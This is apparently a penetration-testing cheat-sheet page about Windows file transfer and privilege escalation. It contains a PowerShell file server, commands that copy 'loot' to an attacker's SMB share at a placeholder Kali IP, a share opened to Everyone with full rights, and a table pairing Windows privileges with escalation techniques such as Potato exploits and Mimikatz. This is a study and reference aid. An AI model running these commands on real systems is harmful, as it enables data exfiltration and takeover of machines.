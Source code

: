 ```PowerShell
Write-Host "HTTP server running on http://localhost:8080/"

while ($listener.IsListening) {
    $context = $listener.GetContext()
    $request = $context.Request
    $response = $context.Response

    $localPath = Join-Path (Get-Location) $request.Url.LocalPath.TrimStart('/')
    if (-Not (Test-Path $localPath)) {
        $response.StatusCode = 404
        $response.OutputStream.Close()
        continue
    }

    $content = [System.IO.File]::ReadAllBytes($localPath)
    $response.ContentLength64 = $content.Length
    $response.OutputStream.Write($content, 0, $content.Length)
    $response.OutputStream.Close()
}

$listener.Stop()
```
### PowerShell SMB Exfiltration
Start Kali SMB server
```bash
impacket-smbserver share . -smb2support -user kali -password kali
```
```PowerShell
net use \\<kali_ip>\share /user:kali kali
cp loot \\<kali_ip>\share\
net use \\<kali_ip>\share /delete # Optional: Delete share use
```

### Payload Transfers via Windows Pivot
```PowerShell
net share # View shares
net share public=C:\Users\Public /GRANT:Everyone,FULL # Start share from PUBLIC folder named "public"
```
---
### Tokens/Privileges
| Token/Privilege            | Explanation                                                                                                                                                     |
| -------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `SeImpersonatePrivilege`   | Potato exploits (especially when compromising IIS or any other service account)                                                                                 |
| `SeDebugPrivilege`         | Mimikatz                                                                                                                                                        |
| `SeAssignPrimaryPrivilege` | Similar to `SeImpersonatePrivilege`. Try Potato exploits                                                                                                        |
| `SeBackupPrivilege`        | Grants **read** access to all objects. Get SAM/SYSTEM                                                                                                           |
| `SeRestorePrivilege`       | Grants **write** access to all objects. Try:<br>	- Modifying service binaries<br>	- Overwriting DLLs used by SYSTEM processes<br>	- Modifying registry settings |
| `SeTakeOwnershipPrivilege` | Lets user take ownership over an object. Once you own an object, you can try the same methods as listed above for `SeRestorePrivilege`                          |
| `SeTcbPrivilege`           |                                                                                                                                                                 |
| `SeCreateTokenPrivilege`   |                                                                                                                                                                 |
| `SeLoadDriverPrivilege`    |                                                                                                                                                                 |
| `SeManageVolumePrivilege`  | https://github.com/CsEnox/SeManageVolumeExploit                                                                                                                 |


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami